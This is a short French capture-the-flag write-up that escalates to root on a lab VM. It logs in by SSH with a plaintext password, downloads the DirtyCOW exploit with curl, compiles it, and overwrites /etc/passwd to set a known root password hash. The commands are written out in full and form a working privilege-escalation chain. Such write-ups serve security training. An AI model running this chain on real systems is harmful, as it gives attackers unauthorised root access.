# writeup4

On se connecte en ssh avec le compte de zaz:
\
*Rappel writeup1, password: 646da671ca01bb5d84dbb5fb2238dc8e*
```
$ ssh zaz@192.168.56.102
```

On se rend ensuite dans le dossier /tmp ou on a les droits d'ecriture afin de curl un `exploit DirtyC0w` et le compiler.
```
$ cd /tmp
$ curl https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c --output cow.c
$ gcc -pthread cow.c -o cow
```

Contrairement a l'exploit precedant, qui nous permettez de créer un nouveau user avec les droits root, cet exploit DirtyC0w nous permet de modifier un fichier.
\
On lui donne donc le fichier /etc/passwd afin de modifier le mot de passe du user root (on utilise le meme mot de passe que l'exploit precedant).
```
$ ./cow /etc/passwd "root:fil.mzz26AR.E:0:0:pwned:/root:/bin/bash"
$ su root
$ whoami
root
```

Et voila nous sommes root !